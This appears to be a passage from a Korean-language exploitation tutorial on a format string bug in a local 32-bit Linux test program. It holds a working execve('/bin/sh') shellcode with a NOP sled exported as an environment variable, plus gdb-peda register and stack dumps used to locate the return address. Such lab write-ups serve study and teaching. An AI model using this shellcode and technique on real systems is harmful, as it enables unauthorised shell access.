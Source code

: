 ```
root@shh0ya-virtual-machine:~/Pwn/FSB# export EGG=`python -c 'print "\x90"*40+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

쉘 코드를 환경변수에 등록했고, 아래와 같이 환경변수의 주소를 구했다.

```
root@shh0ya-virtual-machine:~/Pwn/FSB# ./a.out 
addr->0xffffd81e
```

메인함수에 bp를 설치하고 RET 주소를 확인하면 다음과 같다.

```
[----------------------------------registers-----------------------------------]
EAX: 0xf7fb7dbc --> 0xffffd61c --> 0xffffd782 ("LC_PAPER=ko_KR.UTF-8")
EBX: 0x0 
ECX: 0xf36c5113 
EDX: 0xffffd5a4 --> 0x0 
ESI: 0xf7fb6000 --> 0x1b1db0 
EDI: 0xf7fb6000 --> 0x1b1db0 
EBP: 0x0 
ESP: 0xffffd57c --> 0xf7e1c637 (<__libc_start_main+247>:	add    esp,0x10)
EIP: 0x80484cb (<main>:	push   ebp)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80484c2 <frame_dummy+34>:	add    esp,0x10
   0x80484c5 <frame_dummy+37>:	leave  
   0x80484c6 <frame_dummy+38>:	jmp    0x8048440 <register_tm_clones>
=> 0x80484cb <main>:	push   ebp
   0x80484cc <main+1>:	mov    ebp,esp
   0x80484ce <main+3>:	sub    esp,0x404
   0x80484d4 <main+9>:	mov    WORD PTR [ebp-0x2],0x30
   0x80484da <main+15>:	mov    eax,ds:0x804a040
[------------------------------------stack-------------------------------------]
0000| 0xffffd57c --> 0xf7e1c637 (<__libc_start_main+247>:	add    esp,0x10)
0004| 0xffffd580 --> 0x1 
0008| 0xffffd584 --> 0xffffd614 --> 0xffffd76f ("/root/Pwn/FSB/exam")
0012| 0xffffd588 --> 0xffffd61c --> 0xffffd782 ("LC_PAPER=ko_KR.UTF-8")
0016| 0xffffd58c --> 0x0 
0020| 0xffffd590 --> 0x0 
0024| 0xffffd594 --> 0x0 
0028| 0xffffd598 --> 0xf7fb6000 --> 0x1b1db0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080484cb in main ()
```

RET 주소는 `0xffffd57c` 로 확인된다. 환경변수의 주소도 알고 있고, 입력 버프의 길이도 알고 있으므로 이제 공격을 시도하면 된다. 그러나 한가지 문제가 존재한다.

디버거와 실제 실행 시 메모리 주소가 다르다는 점이다.

```
gdb-peda$ r
Starting program: /root/Pwn/FSB/exam 
AA
AA
0xffffd576
```
